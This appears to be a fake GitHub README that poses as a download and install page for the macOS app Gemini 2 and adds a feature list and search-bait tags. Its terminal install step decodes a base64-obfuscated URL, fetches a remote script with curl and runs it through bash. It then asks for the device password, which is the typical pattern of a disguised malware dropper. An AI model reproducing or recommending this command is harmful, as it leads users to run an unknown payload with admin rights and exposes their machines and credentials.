 # Gemini 2 – Duplicate Finder for macOS

![Gemini 2 Screenshot](https://i.ytimg.com/vi/VLMSEAYvge4/maxresdefault.jpg)

## 📥 Download Gemini 2 for macOS

[![⬇️ Download Gemini 2 Mac](https://img.shields.io/badge/Download-Gemini%202%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Gemini)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Gemini 2?

Gemini 2 is a smart duplicate file finder for macOS developed by MacPaw. It scans your Mac for duplicate documents, photos, music files, archives, and even similar-looking images. With a sleek and intuitive interface, it helps you reclaim valuable storage space and reduce clutter by safely removing redundant files.

Gemini 2 uses advanced algorithms and machine learning to detect not just exact duplicates, but also similar files that might go unnoticed. It's optimized for performance on Apple Silicon and supports macOS Ventura, Monterey, and beyond. Ideal for creatives, professionals, and everyday users looking to keep their Mac clean and efficient.

---

![Gemini App UI](https://cdn3.macpaw.com/images/products/gemini/app.png?id=69b6b39b7b07e0e3a9369983ae79b200)

---

## ⚙️ Key Features

- 🧠 Smart Duplicate Detection – Identifies identical and similar files using machine learning.
- 🧹 Safe Cleanup – Provides previews and lets you review before deleting anything.
- 💾 Reclaim Storage – Free up gigabytes of space from unnecessary duplicates.
- 🎯 Intelligent Suggestions – Learns what to keep and what to delete.
- 🗂 Supports All File Types – Scans photos, music, documents, and more.
- 🌐 Multilingual Interface – Available in multiple languages.
- 💻 macOS Native – Optimized for Apple M1/M2 and latest macOS versions.

---

## 📦 System Requirements

- macOS 10.12 or later
- Supports Monterey, Ventura, Sonoma
- Intel & Apple Silicon (M1/M2/M3)
- At least 100MB free disk space

---

## 🔍 Tags

gemini 2.0, gemini mac app, gemini mac, gemini mac os, gemini osx, gemini 2 mac, gemini duplicate finder, gemini 2 duplicate finder, macpaw gemini, macpaw gemini 2, gemini duplicate, gemini 2 mac download

